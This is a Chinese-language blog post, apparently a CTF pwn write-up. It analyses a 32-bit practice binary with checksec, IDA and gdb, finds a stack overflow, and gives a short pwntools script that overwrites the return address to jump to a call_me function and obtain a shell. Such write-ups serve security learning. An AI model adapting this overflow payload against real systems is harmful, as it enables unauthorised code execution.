```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      CTF-Pwn1 				# 标题 
subtitle:   Hello Eutopia's Blog #副标题
date:       2023-10-08 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-6.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - CTF
    - PWN
    - 逆向
    - 栈溢出

---
```


# CTF-Pwn1

- 首先使用`checksec`工具进行检查：

![checksec](https://s3.bmp.ovh/imgs/2023/10/08/e3f579b58841907c.png)

![file](https://s3.bmp.ovh/imgs/2023/10/08/9795f93f6188b8bf.png)

​		可以发现，`pwn1`程序为32位，仅开启了DEP保护，动态链接。

- 然后使用ida64打开进行静态分析，可见`stack_overflow`函数存在漏洞，可以进行栈溢出攻击。

`main`：

![main](https://s3.bmp.ovh/imgs/2023/10/08/ed088b2f698bfb0b.png)

`stack_flow`：

![stack_flow](https://s3.bmp.ovh/imgs/2023/10/08/759eed2870a46761.png)

`call_me`：

![call_me](https://s3.bmp.ovh/imgs/2023/10/08/a6f33a1fa7490f95.png)

​		另外，发现内部有`call_me`函数，可知需要通过栈溢出覆盖返回地址为`call_me`函数地址。

- 上述函数地址：

| 函数名       | 地址       |
| ------------ | ---------- |
| `main`       | 0x080484C2 |
| `stack_flow` | 0x08048494 |
| `call_me`    | 0x0804846B |

- 使用gdb工具进行调试，可以查看栈的情况。![stack](https://s3.bmp.ovh/imgs/2023/10/08/4aedc8b2d9357d55.png)
- 构造python脚本进行动态调试：

`python`：

```python
from pwn import *

context(arch="i386", log_level="debug")
p = process("./pwn1")

call_me = 0x0804846B
leave = 0x080484C0

retn = 0x080484F4
payload = flat(b'a'*(0x28), retn, call_me)
p.recvuntil("Please finish pwn1!")
gdb.attach(p, 'b *0x080484C0')
p.send(payload)

p.interactive()
```

- 最终成功执行`call_me`函数，获取shell。

![result](https://s3.bmp.ovh/imgs/2023/10/08/99d7edda5ea57da7.png)

